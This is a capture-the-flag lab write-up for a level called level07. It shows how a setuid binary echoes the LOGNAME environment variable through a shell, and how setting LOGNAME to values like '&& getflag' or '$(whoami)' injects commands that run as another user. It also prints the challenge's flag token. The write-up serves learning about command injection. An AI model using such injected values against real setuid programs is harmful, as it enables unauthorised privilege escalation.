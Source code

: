 In our home directory, we see an executable with suid/guid:
        >$ ls -la
        -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07

Using strings command to return the string characters into the binary file:
        >$ strings level07
        [...]
        LOGNAME
        /bin/echo %s
        /or/
        Using retdec.com on the file we see this two lines:
        char * env_val = getenv("LOGNAME"); // 0x8048576
        asprintf(&buffer, "/bin/echo %s ", env_val);

We retrieve the env variable 'LOGNAME' (which is an env variable that contains the user that executes the current shell process), with asprintf on the string "/bin/echo %s" to replace "%s" with the result of 'LOGNAME'.
Let's check its value and what happens if we change it:
        >$ echo $LOGNAME
        level07
        >$ export LOGNAME="hello"
        >$ ./level07
        hello

This is a vulnerability, since the file as suid bit and therefore will run any command as user flag07:
        >$ export LOGNAME="&& whoami" /or/ LOGNAME=$\(whoami\)
        >$ ./level07
        flag07
So injecting getflag should yield the desired result:
        >$ export LOGNAME="&& getflag" /or/ LOGNAME=$\(getflag\)
        >$ ./level07
        Check flag.Here is your token : fiumuikeil55xe9cu4dood66h

Vulnerability:
System call by privileged user to echo env variable -> Privilege escalation via env variable.

Documentations:
* https://unix.stackexchange.com/questions/268378/difference-between-logname-and-logname
* http://codereview.stackexchange.com/questions/6435/c-system-function-vulnerability